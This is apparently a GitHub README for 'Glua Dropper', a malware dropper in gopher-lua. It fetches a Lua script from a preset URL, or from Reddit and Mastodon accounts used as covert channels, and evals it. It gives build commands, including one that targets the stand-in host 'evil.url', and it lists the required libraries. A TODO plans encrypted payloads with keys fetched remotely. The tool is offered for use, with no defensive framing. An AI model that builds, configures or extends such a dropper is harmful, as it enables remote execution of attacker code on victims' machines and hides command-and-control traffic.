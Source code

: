 # Glua Dropper
## A simple dropper written in gopher-lua

The programs downloads a gopher-lua script from a preset url and evals it. Can download and run scripts from reddit.com and mastodon.social

### Building
Requires go-bindata

Build with ```./build.sh [site] [endPoint]```

#### Examples 

```./build.sh mastodon 0000000```
```./build.sh reddit accountName```
```./build.sh plaintext https://evil.url```

The reddit dropper takes an account name as the 2nd opt, mastodon takes an account ID 


### Requirements

The following libs are required 

"github.com/cjoudrey/gluahttp"
"github.com/nubix-io/gluasocket"
"github.com/otm/gluash"
"github.com/yuin/gopher-lua"
"layeh.com/gopher-json"

### TODO

#### Encryption
Add support for decypting evals using keys fetched from a url/reddit account 
Currently the crypto-lib only supports aes-cbc. Suppoer for RSA should be added